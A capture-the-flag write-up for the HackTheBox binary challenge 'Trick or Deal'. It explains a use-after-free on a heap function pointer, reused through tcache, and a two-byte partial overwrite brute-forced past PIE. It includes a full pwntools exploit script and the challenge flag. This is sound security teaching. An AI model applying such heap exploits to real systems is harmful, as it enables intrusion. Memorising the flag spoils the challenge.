


# Trick or Deal

We are given the binary, linker and libc files.

Running `checksec`
```bash
gef➤  checksec
Canary                        : ✓ 
NX                            : ✓ 
PIE                           : ✓ 
Fortify                       : ✘ 
RelRO                         : Full
```

## Analysis
Before displaying the menu (pre-initialization stage), the program does several things:
- Create a heap memory (`storage`) of size 0x50
- Copies the global variable data to `storage`
- Stores a function ptr to `printStorage()` in `storage + 0x48`

The binary has several features:
- `See the weaponry` - Displays a list of weapons by calling `(storage + 0x48)()`
- `buy` - [Dummy feature that does nothing]
- `make offer` - If provide 'y', it creates a heap memory of any size depending on your input. Then, it allows you to write content to the heap memory.
- `steal` - free `storage` heap memory.
- `leave` -  exit the program

There is a win function called `unlock_storage`. So, this might be a ret2win challenge. Unfortunately, it is not.

If we can modify the function ptr to `unlock_storage` instead of `printStorage`, we can execute the `unlock_storage` function with `See the weaponry` feature as it calls `(storage + 0x48)()`.
<p align="center">
    <kbd></kbd><br/>
</p>

Clearly, we can do it with `make offer` feature as it allows us to write any data to the heap memory. However, we need to allocate `storage` chunk in `make offer` feature so that we can modify its content. 

So, we need to abuse tcachebin. We allocate a random heap memory of size 0x50 (80). When we free the `storage` memory using `steal` feature, it will be sent to the tcachebin instead of the heap. Then, we allocate heap memory of size 0x50 again. This time, the memory allocated is the `storage` memory.

Issue: PIE is enabled, so we don't know the exact address of `unlock_storage` function.

Solution: 
- From ghidra, the .text section is from 0x9b0 - 0x11e1. So, the least significant byte and the lower nibble of second least significant byte is unaffected by ASLR. The upper nibble of second least significant might be unaffected by ASLR (it depends).
<p align="center">
    <kbd></kbd><br/>
</p>

- The function ptr initially contains the address of `printStorage` function (in .text section). So, we can perform partial overwrite since the only difference between the address of `printStorage` and `unlock_storage` is the least significant byte and the lower nibble of the second least significant byte. 

However, we just can't overwrite the lower nibble of the second least significant byte. We had to overwrite the second least significant byte. So, we had to brute force the upper nibble of the second least significant byte. 

## Exploit
Idea: Allocate random heap memory of size 0x50 (80). Send the `storage` heap memory to tcachebin by freeing it. Allocate `storage` heap memory and partial overwrite the last 2 bytes of `printStorage` function to the last 2 bytes of `unlock_storage` function. We had to brute force the upper nibble of the second least significant byte. Call `see weapons` to invoke `unlock_storage` function ptr.
```python
from pwn import *

while True:
    elf = ELF('./trick_or_deal')
    r = elf.process()
    #r = remote('64.227.37.154', 32149)
    #pause()
    
    def make_offer(size, content):
        r.sendlineafter(b'What do you want to do? ', b'3')
        r.sendlineafter(b'you want to make an offer(y/n): ', b'y')
        r.sendlineafter(b'How long do you want your offer to be? ', size)
        r.sendafter(b'What can you offer me? ', content)
    
    def steal():
        r.sendlineafter(b'What do you want to do? ', b'4')
    
    def see_weapons():
        r.sendlineafter(b'What do you want to do? ', b'1')
    
    try:
        make_offer(b'80', b'A')
        steal()
        # on ghidra, win: 0x00100eff
        make_offer(b'80', b'A' * 72 + b'\xff\x0e')
        see_weapons()
        r.recvuntil(b'Bruteforcing Storage Access Code')
        print("GOT IT!!!!!")
        r.interactive()
    except Exception as e:
        with context.local(log_level = 'error'):
            r.close()
        del r
```

Flag: `HTB{tr1ck1ng_d3al3rz_f0r_fUn_4nd_pr0f1t}`